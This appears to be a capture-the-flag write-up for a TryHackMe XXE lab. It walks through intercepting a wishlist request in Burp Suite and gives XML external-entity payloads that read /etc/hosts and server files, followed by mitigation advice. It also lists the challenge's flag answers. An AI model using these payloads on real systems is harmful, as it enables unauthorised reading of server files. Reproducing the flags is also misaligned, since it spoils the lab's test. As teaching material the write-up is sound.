 # 🎄 TryHackMe Advent of Cyber 2024 – Day 5: XXE Exploitation Challenge

## Objectives 🎯

1. Understand how XML and entities work to identify XXE vulnerabilities.
2. Exploit the XXE vulnerability to access restricted files.
3. Investigate application development history for signs of sabotage.

## Steps 🚀

### Step 1: Identifying the XXE Vulnerability

#### Setting Up Burp Suite
1. **Install and Launch Burp Suite:**  
   - Download Burp Suite [here](https://portswigger.net/burp).
2. **Navigate to the Website:**  
   - Open Burp's browser and visit `http://MACHINE_IP/product.php`.
3. **Add a Product to Wishlist:**  
   - Intercept the "Add to Wishlist" request using Burp Suite’s **Proxy** tab.

#### Crafting the Payload
1. **Intercept and Modify the Request:**  
   Replace the `<product_id>` value in the XML with an external entity reference:
   ```
   <!--?xml version="1.0"?-->
   <!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]>
   <wishlist>
     <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
   </wishlist>
   ```
2. **Send the Request:**  
   Use Burp’s **Repeater** tab to send the modified request and observe the response.

### Step 2: Exploiting the XXE Vulnerability

#### Accessing Sensitive Files
1. **Target Files in the Server:**  
   Modify the payload to access files in `/var/www/html/wishes/`:
   ```
   <!--?xml version="1.0"?-->
   <!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_1.txt"> ]>
   <wishlist>
     <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
   </wishlist>
   ```
2. **Iterate Through Files:**  
   Change the file name incrementally (e.g., `wish_2.txt`, `wish_3.txt`) to uncover additional content.

#### Discovering the Flag
- On `wish_15.txt`, the response reveals:  
  ```
  PS: The flag is THM{Brut3f0rc1n6_mY_w4y}
  ```

### Step 3: Investigating the Sabotage

#### Accessing the Changelog
1. **View the Changelog:**  
   Visit `http://MACHINE_IP/CHANGELOG`.
2. **Analyze Entries:**  
   The changelog indicates a recent update introducing vulnerable XML parser code.

#### Discovering the Sabotage Flag
- The changelog reveals the sabotage:  
  **Answer:** `THM{m4y0r_m4lw4r3_b4ckd00rs}`

## Key Findings 🔑

1. **Sensitive File Access:** Exploiting the XXE vulnerability enabled access to restricted server files.
2. **Evidence of Sabotage:** The changelog confirmed suspicious modifications by Mayor Malware.
3. **Unsecure XML Parsing:** The vulnerability arose from improperly handled external entities.

## Lessons Learned 🌟

### Understanding XXE Exploitation
1. **XML Risks:** XML parsing without restrictions can expose sensitive backend systems.
2. **Entity Resolution:** External entities can be used to access files or send malicious requests.

### Mitigation Strategies
1. **Disable External Entity Loading:**  
   - Use `libxml_disable_entity_loader(true)` in PHP.
2. **Input Validation:**  
   - Restrict XML structures and validate inputs before processing.
3. **Regular Audits:**  
   - Review and test applications for vulnerabilities prior to deployment.

## Tools and Techniques 🛠️

1. **[Burp Suite](https://portswigger.net/burp):** Intercepted and modified HTTP requests to test for XXE.  
2. **XML Payloads:** Exploited vulnerabilities using custom XML with external entities.  
3. **Browser:** Accessed the application and verified the exploitation outcomes.

## Final Thoughts 🎁

Day 5 emphasized the importance of secure coding practices when dealing with XML. The challenge demonstrated how improper parsing could expose sensitive data and highlighted the dangers of external entities. Understanding these risks and addressing them proactively is crucial for secure application development.

### Answers ✅

1. **What is the flag discovered after navigating through the wishes?**  
   **Answer:** `THM{Brut3f0rc1n6_mY_w4y}`  
2. **What is the flag seen on the possible proof of sabotage?**  
   **Answer:** `THM{m4y0r_m4lw4r3_b4ckd00rs}`  

## Table of Contents 📚

- [Main Page](README.md)
- [Day 1: OPSEC Challenge](day1.md)
- [Day 2: Log Analysis](day2.md)
- [Day 3: Log Analysis](day3.md)
- [Day 4: Atomic Red Team](day4.md)
- **Day 5: XXE**
- [Day 6: Sandboxes](day6.md)
- [Day 7: AWS Sandboxes](day7.md)
- [Day 8: Shellcodes](day8.md)
- [Day 9: Risk Assessment](day9.md)
- [Day 10: Phishing](day_10.md)
- [Day 11: Wi-Fi Attacks](day_11.md)
- [Day 12: Web Timing Attacks](day_12.md)
- [Day 13: WebSockets](day_13.md)
- [Day 14: Certificate Mismanagement](day_14.md)
- [Day 15: Active Directory](day_15.md)
- [Day 16: Azure Exploitation](day_16.md)
- [Day 17: Log Analysis](day_17.md)
- [Day 18: Prompt Injection](day_18.md)
- [More Days to Come!](#)
